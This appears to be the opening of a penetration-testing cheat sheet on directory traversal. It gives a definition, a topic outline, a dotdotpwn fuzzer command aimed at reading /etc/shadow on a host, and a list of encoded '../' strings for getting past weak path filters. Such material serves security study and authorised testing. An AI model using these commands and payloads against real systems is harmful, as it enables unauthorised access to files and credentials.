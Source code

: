 # Directory Traversal

> Path Traversal, also known as Directory Traversal, is a type of security vulnerability that occurs when an attacker manipulates variables that reference files with “dot-dot-slash (../)” sequences or similar constructs. This can allow the attacker to access arbitrary files and directories stored on the file system.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [URL Encoding](#url-encoding)
    * [Double URL Encoding](#double-url-encoding)
    * [Unicode Encoding](#unicode-encoding)
    * [Overlong UTF-8 Unicode Encoding](#overlong-utf-8-unicode-encoding)
    * [Mangled Path](#mangled-path)
    * [NULL Bytes](#null-bytes)
    * [Reverse Proxy URL Implementation](#reverse-proxy-url-implementation)
* [Exploit](#exploit)
    * [UNC Share](#unc-share)
    * [ASPNET Cookieless](#aspnet-cookieless)
    * [IIS Short Name](#iis-short-name)
    * [Java URL Protocol](#java-url-protocol)
* [Path Traversal](#path-traversal)
    * [Linux Files](#linux-files)
    * [Windows Files](#windows-files)
* [Labs](#labs)
* [References](#references)


## Tools

- [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - The Directory Traversal Fuzzer
    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```


## Methodology

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```
